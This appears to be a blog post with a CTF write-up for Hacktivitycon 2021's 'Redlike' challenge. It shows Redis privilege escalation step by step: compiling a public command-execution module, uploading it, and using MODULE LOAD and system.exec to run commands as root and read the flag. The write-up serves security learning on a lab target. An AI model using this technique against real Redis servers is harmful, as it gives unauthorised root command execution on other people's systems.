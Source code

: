 +++
title = "Redlike (Redis PrivEsc) Hacktivitycon 2021 Writeup [Alternate Approach]"
date = "2021-09-19T20:59:21+05:30"
author = ""
authorTwitter = "0xdexter0us" 
cover = "https://miro.medium.com/max/788/0*wj44yAjifjt6VlCP.png"
tags = ["ctf", "hacktivitycon", "hackerone", "redis", "root"]
showFullContent = false

+++

After I read write-ups by other hackers of this challenge, I found out that most of them solved it with adding SSH keys, and I did it by installing redis module, so here is my approach.

As we start the challenge we get ssh login to start with, in privilege escalation just like everyone else I started with [linpeas.sh](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) after analysing the results of linpeas I realised soon there is nothing much in this box other than redis.

{{< image src="/images/redlike/2021-09-19_21-14_1.png" position="center" style="border-radius: 5px;" >}}

So I started with checking `redis-server` and `redis-cli` versions.

{{< image src="/images/redlike/2021-09-19_21-14.png" position="center" style="border-radius: 5px;" >}}

Then after some research I came across this redis module.

```url
https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```

I cloned and compiled the module in my VPS and uploaded it to the host.

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make
scp -P 30341 module.so user@challenge.ctf.games:/tmp/
```

Then I loaded the module, and I was able to executed the command as `root` and read the flag.

```bash
redis-cli
MODULE LOAD /tmp/module.so
system.exec "id"
system.exec "ls /root/"
system.exec "cat /root/flag.txt"
```

 {{< image src="/images/redlike/2021-09-19_21-38.png" position="center" style="border-radius: 5px;" >}}



Thanks for reading :)

